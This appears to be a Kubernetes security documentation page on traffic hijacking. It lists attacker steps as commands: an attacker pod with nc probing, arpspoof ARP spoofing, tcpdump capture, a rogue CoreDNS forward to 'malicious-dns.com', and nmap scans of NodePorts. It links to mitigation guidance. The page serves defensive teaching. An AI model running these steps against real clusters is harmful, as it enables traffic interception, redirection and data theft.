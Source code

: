 ```yaml
---
sidebar_position: 11
title: "Traffic Hijacking"
description: "How attackers manipulate Kubernetes network traffic to intercept, redirect, or disrupt communication between workloads."
---
```


# Traffic Hijacking

**Traffic hijacking** in Kubernetes occurs when an attacker intercepts, redirects, or disrupts network traffic within the cluster. This can lead to **data exfiltration, man-in-the-middle (MITM) attacks, service downtime, and unauthorized access to sensitive information**.

---

## Exploitation Steps: Manipulating Kubernetes Network Traffic

An attacker exploits **misconfigured network policies, insecure service exposure, or DNS manipulation** to hijack traffic.

### Step 1: Exploit Missing Network Policies

If network policies are not enforced, the attacker scans for open communication paths:

```bash
kubectl get networkpolicies --all-namespaces
```

If no restrictive policies exist, the attacker can access internal workloads:

```bash
kubectl run attacker-pod --rm -it --image=alpine -- /bin/sh
nc -zv <target-pod-ip> 443
```

Without network segmentation, lateral movement between pods is possible.

### Step 2: Conduct a Man-in-the-Middle (MITM) Attack

If an attacker gains access to a compromised pod, they can intercept internal traffic using **ARP spoofing**:

```bash
arpspoof -i eth0 -t <victim-ip> <gateway-ip>
```

Or by using **tcpdump** to capture sensitive data:

```bash
tcpdump -i eth0 -A port 443
```

This allows the attacker to read and modify unencrypted traffic.

### Step 3: Manipulate Kubernetes DNS

If **CoreDNS** is misconfigured, the attacker can modify DNS responses to redirect traffic:

```bash
kubectl edit configmap coredns -n kube-system
```

By injecting a rogue DNS entry:

```yaml
.:53 {
    forward . malicious-dns.com
}
```

All DNS queries in the cluster are now redirected to the attacker's controlled server.

### Step 4: Abuse External Service Exposure

If services are exposed via **NodePort** or **LoadBalancer** without proper authentication, the attacker accesses internal workloads directly:

```bash
nmap -p 30000-32767 <cluster-node-ip>
```

If a publicly exposed service is found, the attacker exploits it to extract sensitive data.

### Result

The attacker has successfully **intercepted, manipulated, or redirected cluster traffic**, leading to **data theft, unauthorized access, and service disruption**.

---

## Mitigation Steps

To protect against **traffic hijacking**, follow the security best practices outlined in:

➡ **[Securing Kubernetes Network Traffic](/docs/best_practices/cluster_setup_and_hardening/network_security/traffic_hijacking_mitigation)**

This guide covers techniques such as **enforcing network policies, securing CoreDNS, encrypting intra-cluster traffic, and restricting service exposure** to prevent unauthorized network manipulation.
